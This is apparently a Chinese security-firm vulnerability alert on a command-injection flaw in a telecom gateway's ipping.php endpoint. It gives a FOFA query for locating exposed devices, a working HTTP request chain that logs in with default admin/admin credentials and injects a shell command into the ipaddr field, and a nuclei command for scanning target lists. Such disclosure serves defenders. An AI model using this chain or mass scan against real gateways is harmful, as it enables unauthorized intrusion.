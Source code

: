 #  漏洞预警 电信 网关 ipping.php 命令执行漏洞   
by 融云安全-sm  融云攻防实验室   2024-07-24 15:17  
  
**0x01 阅读须知**  
  
**融云安全的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！**  
  
**0x02 漏洞描述**  
  
电信 网关 ipping.php 存在命令执行漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49zW4EllPibB3HAAwKnTSq2zYvFb8eZrKyXeHBtib9HZEJZQ0tKoSZJe7eKZOqXwvLe8Rcb8DxQlfogQ/640?wx_fmt=png&from=appmsg "")  
  
**0x03 漏洞复现**  
  
**fofa-qeury:body="a:link{text-decoration:none;color:orange;}"**  
  
1.获取cookie->默认密码登录->ipping.php接口命令执行得到结果  
```
GET /manager/index.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 21


POST /manager/login.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Cookie: {{phpsessid}}

Name=admin&Pass=admin


POST /manager/ipping.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Cookie: {{phpsessid}}

ipaddr=127.0.0.1;echo 237219737;
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49zW4EllPibB3HAAwKnTSq2zYibZwfTWibhCTwaPFlZ3wfUCuMpMrCMeDG7HJKOtf4XYfiaJx4WvAk6mdQ/640?wx_fmt=png&from=appmsg "")  
  
2.nuclei验证脚本已发布于知识星球  
```
nuclei.exe  -t dianxin-gateway-ipping-rce.yaml -l subs.txt -stats
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49zW4EllPibB3HAAwKnTSq2zY6A2zBictAPnuVbC8AFianwGibH80ick71DwkldL9zS9WTEP0SBrqtrTg5w/640?wx_fmt=png&from=appmsg "")  
  
**加入星球请扫描下方二维码，更多精，敬请期待！**  
  
👇👇👇  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/GWXBjgPE49zs4eNkNzwGvylxKjRnH2aibQqdbEUPicwHRpyuIhk7YdcECWw9kZGCibot3aRDzS4ADTmywx57c7QBw/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
****  
**星球亮点：**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49wOibwjXDprJGvrk2gbZcTcOtD9ztDD6NyMvkNhUuMN8yPWicCI7MjOWvTQibLgQsXUqBPY0jPwHzQ6A/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
****  
  
**0x04 公司简介**  
  
江西渝融云安全科技有限公司，2017年发展至今，已成为了一家集云安全、物联网安全、数据安全、等保建设、风险评估、信息技术应用创新及网络安全人才培训为一体的本地化高科技公司，是江西省信息安全产业链企业和江西省政府部门重点行业网络安全事件应急响应队伍成员。  
    公司现已获得信息安全集成三级、信息系统安全运维三级、风险评估三级等多项资质认证，拥有软件著作权十八项；荣获2020年全国工控安全深度行安全攻防对抗赛三等奖；庆祝建党100周年活动信息安全应急保障优秀案例等荣誉......  
  
**编制：sm**  
  
**审核：fjh**  
  
**审核：Dog**  
  
****  
**1个1朵********5毛钱**  
  
**天天搬砖的小M**  
  
**能不能吃顿好的**  
  
**就看你们的啦**  
  
****  
  
  
